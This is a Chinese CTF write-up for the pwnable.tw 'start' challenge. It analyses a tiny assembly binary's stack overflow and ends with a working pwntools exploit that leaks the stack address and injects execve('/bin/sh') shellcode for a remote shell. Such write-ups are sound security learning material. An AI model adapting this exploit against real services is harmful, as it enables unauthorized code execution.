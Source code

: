 #+TITLE: pwnable.tw 之 start
** 分析
运行一下：

#+BEGIN_SRC 
➜  Desktop ./start 
Let's start the CTF:123456
#+END_SRC

输出“Let's start the CTF:”，然后让你输入。
ltrace一下

#+BEGIN_SRC 
➜  Desktop ltrace ./start 
Couldn't find .dynsym or .dynstr in "/proc/5532/exe"
#+END_SRC

并没有什么卵用。。

#+BEGIN_SRC 
Symbol table '.symtab' contains 8 entries:
   Num:    Value  Size Type    Bind   Vis      Ndx Name
     0: 00000000     0 NOTYPE  LOCAL  DEFAULT  UND 
     1: 08048060     0 SECTION LOCAL  DEFAULT    1 
     2: 00000000     0 FILE    LOCAL  DEFAULT  ABS start.s
     3: 0804809d     0 NOTYPE  LOCAL  DEFAULT    1 _exit
     4: 08048060     0 NOTYPE  GLOBAL DEFAULT    1 _start
     5: 080490a3     0 NOTYPE  GLOBAL DEFAULT    1 __bss_start
     6: 080490a3     0 NOTYPE  GLOBAL DEFAULT    1 _edata
     7: 080490a4     0 NOTYPE  GLOBAL DEFAULT    1 _end
#+END_SRC

连main都没有。。看来貌似是汇编写的。。丢r2里看一下

#+BEGIN_SRC assembly
   ;      [0] va=0x08048060 pa=0x00000060 sz=67 vsz=67 rwx=-r-x .text
            ;-- section..text:
            0x08048060    54           push esp
            0x08048061    689d800408   push sym._exit ; 0x0804809d 
            0x08048066    31c0         xor eax, eax
            0x08048068    31db         xor ebx, ebx
            0x0804806a    31c9         xor ecx, ecx
            0x0804806c    31d2         xor edx, edx
            0x0804806e    684354463a   push 0x3a465443 ; 0x3a465443 
            0x08048073    6874686520   push 0x20656874 ; 0x20656874 
            0x08048078    6861727420   push 0x20747261 ; 0x20747261 
            0x0804807d    6873207374   push 0x74732073 ; 0x74732073 
            0x08048082    684c657427   push 0x2774654c ; 0x2774654c 
            0x08048087    89e1         mov ecx, esp
            0x08048089    b214         mov dl, 0x14
            0x0804808b    b301         mov bl, 0x1
            0x0804808d    b004         mov al, 0x4
            0x0804808f    cd80         int 0x80
               syscall[0xffffffff][0]=? ; sym._end
            0x08048091    31db         xor ebx, ebx
            0x08048093    b23c         mov dl, 0x3c
            0x08048095    b003         mov al, 0x3
            0x08048097    cd80         int 0x80
               syscall[0xffffffff][0]=? ; sym._end
            0x08048099    83c414       add esp, 0x14
            0x0804809c    c3           ret
            ;-- sym._exit:
            0x0804809d    5c           pop esp
            0x0804809e    31c0         xor eax, eax
            0x080480a0    40           inc eax
            0x080480a1    cd80         int 0x80
               syscall[0xffffffff][0]=? ; sym._end
#+END_SRC

重点是这里
#+BEGIN_SRC assembly
            0x08048087    89e1         mov ecx, esp
            0x08048089    b214         mov dl, 0x14
            0x0804808b    b301         mov bl, 0x1
            0x0804808d    b004         mov al, 0x4
            0x0804808f    cd80         int 0x80
               syscall[0xffffffff][0]=? ; sym._end
            0x08048091    31db         xor ebx, ebx
            0x08048093    b23c         mov dl, 0x3c
            0x08048095    b003         mov al, 0x3
            0x08048097    cd80         int 0x80
#+END_SRC

它调用了2个系统调用一个是4，一个是3，查了一下4的那个是write，3的那个是read。
系统调用的参数是依次放在ebx,ecx,edx...中的。也就是说上边2个系统调用用c写就是这样

#+BEGIN_SRC c
write(1,$esp,0x14);
read(0,$esp,0x3c);
#+END_SRC

那么很明显存在溢出。
用gdb调试下
[[./img/start1.png]]
可以看到在此时栈内就是输入的那段话。
然后会使用write系统调用输出它。
[[./img/start2.png]]
接下来会调用read从标准输入里读0x3c字节到栈里。
我们用pwn cyclic 生成60字节的数据读到栈里。
发现原来的已经被我们的数据覆盖了。
[[./img/start3.png]]
[[./img/start4.png]]
接下来就会报错。是在offset为20的地方。
[[./img/start5.png]]
然后发现原来那个 0x804809d 竟然是返回地址 Σ(っ °Д °;)っ。
所以我就想能不把eip劫持到栈上去执行我们的shellcode。。但是checksec看一下，是开了NX的。。
但是汇编写的还是静态编译。ret2libc不行rop链也找不到。。
然后我就不会了。。
网上查了下。。虽然开了NX但是栈上是可执行的 ∑(°Д°≡°Д°)。
那么就简单了。我们可以通过在 0x08048087 上的~mov ecx esp~,把esp的地址leak出来。
因为当你ret到0x08048087时，esp上前4个字节就是_start()一开始push进去的esp。
然后程序会再次执行~write(1,esp,0x14)~前4个字节就是我们需要的esp的地址。
我们再让read读'a'*20+esp_addr-20+shellcode到esp处就能执行我们的shellcode。
然后我发现貌似pwntools的shellcode不能用。。不知道为什么。那么只能自己写了。
** exp
#+BEGIN_SRC python

from  pwn import *
context.binary='./start'
shellcode = asm(
    '''
xor ecx,ecx
xor edx,edx
push ecx
push 0x68732f2f
push 0x6e69622f
mov ebx,esp
mov al,0xb
int 0x80
    '''
)
r = remote('chall.pwnable.tw',10000)
r.recv()
r.send('A'*20+'\x87\x80\x04\x08')
esp_addr = u32(r.recv(4))
print "esp_addr is :",hex(esp_addr)
#r.recv()
r.send('A'*20 + p32(esp_addr+20) + shellcode)#asm(shellcraft.sh())
r.interactive()

#+END_SRC
